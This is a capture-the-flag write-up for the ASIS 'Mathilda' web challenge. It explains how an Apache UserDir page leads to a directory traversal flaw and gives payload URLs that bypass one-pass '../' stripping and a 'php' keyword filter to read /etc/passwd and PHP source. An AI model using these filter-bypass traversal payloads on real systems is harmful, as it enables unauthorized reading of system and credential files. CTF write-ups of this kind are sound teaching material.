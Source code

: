 # Mathilda - Web - 57 points - 96 solvers

> Mathilda learned many skills from Leon, now she want to use [them](http://178.62.48.181/)!

Visiting the page in the description gives us a simple static page. Hidden in the source is the comment `<!-- created by ~rooney -->`. So we go to `http://178.62.48.181/~rooney/`. The tilde syntax enables Apache's [UserDir](https://httpd.apache.org/docs/2.4/howto/public_html.html) module, allowing each user on a system to have their own public directory without any user specific configuration. In this case the files are actually located in `/home/rooney/public_html/`

On the new page, there's a link to `http://178.62.48.181/~rooney/?path=rooney`, and this looks suspiciously like a directory traversal challenge. But simply going to `http://178.62.48.181/~rooney/?path=../../../../../../../../../etc/passwd` doesn't work. After a bit experimentation, we find that `../` is replaced before the path is accessed. But the replacement is only done once, so if we use something like `..././` it will be transformed to `../`. So we can visit `http://178.62.48.181/~rooney/?path=..././..././..././..././etc/passwd` and it works:

    'rooney:x:1000:1000:,,,:/home/rooney:/bin/false'
    'th1sizveryl0ngus3rn4me:x:1001:1001:,,,:/home/th1sizveryl0ngus3rn4me:/bin/bash'
    
That is a very suspicious username. Since UserDir is enabled, we try to visit `http://178.62.48.181/~th1sizveryl0ngus3rn4me/` and we get a mysterious "Invalid Device" message. We try to look at the source instead by visiting `http://178.62.48.181/~rooney/?path=..././..././..././..././home/th1sizveryl0ngus3rn4me/public_html/index.php` but this gives a `Security failed!` message? Seems like it filters out `php` from the path parameter, but we can bypass this by visiting `http://178.62.48.181/~rooney/?path=..././..././..././..././home/th1sizveryl0ngus3rn4me/public_html/index.p../hp` instead. `index.php` requires `flag.php` so we do the same and visit `http://178.62.48.181/~rooney/?path=..././..././..././..././home/th1sizveryl0ngus3rn4me/public_html/flag.p../hp` and get the flag `ASIS{I_l0V3_Us3rD1r_Mpdul3!!}`
